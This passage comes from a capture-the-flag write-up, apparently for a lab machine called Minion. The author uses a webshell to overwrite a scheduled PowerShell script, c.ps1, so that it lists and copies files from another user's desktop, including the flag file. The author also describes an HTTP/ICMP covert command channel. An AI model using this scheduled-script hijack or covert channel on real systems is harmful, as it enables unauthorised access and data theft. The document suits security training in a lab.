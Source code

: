 ### Enumerate Via c.ps1

#### Strategy

This is where some design decisions I made with my shell make this a bit harder. My shell is based on asynchronous comms, in the sense that commands are sent up via HTTP, and then back over ICMP. I know others who solved this box uploaded PowerShell over the HTTP webshell that ran continuously, getting new commands from the ICMP replies. If I had used that strategy here, I could just put that same PowerShell in `c.ps1` and get that same ICMP shell.

I’ll consider making changes to my shell. If I didn’t want to go all the way to ICMP tasking, I could run PowerShell that constantly reads from a file, executing commands in it and sending back results over ICMP, and then have commands I type use HTTP to write to that file.

#### decoder Desktop

Before I get to code changes, I’ll do some really basic enumeration, starting with the home directory of decoder.MINION. Noticing that the next run was less than 30 seconds away, I’ll backup the original `c.ps1` and update the original to list the files on decoder.MINION’s desktop, where I expect to find `user.txt`:

```

Minion> copy \sysadmscripts\c.ps1 \sysadmscripts\c.ps1.bak
Minion> echo 'dir C:\users\decoder.minion\desktop > C:\programdata\0xdf' > \sysadmscripts\c.ps1

```

After that runs, there’s data in `\programdata\0xdf`:

```

Minion> cat \programdata\0xdf

    Directory: C:\users\decoder.minion\desktop

Mode                LastWriteTime     Length Name                               
----                -------------     ------ ----                               
-a---          9/4/2017   7:19 PM     103297 backup.zip                        
-a---         8/25/2017  11:09 AM         33 user.txt

```

I’ll copy both those files to somewhere I can read:

```

Minion> echo 'copy C:\users\decoder.minion\desktop\* C:\programdata\' > \sysadmscripts\c.ps1

```

Once that runs, I can read `user.txt`:

```

Minion> type \programdata\user.txt
40b949f9************************

```
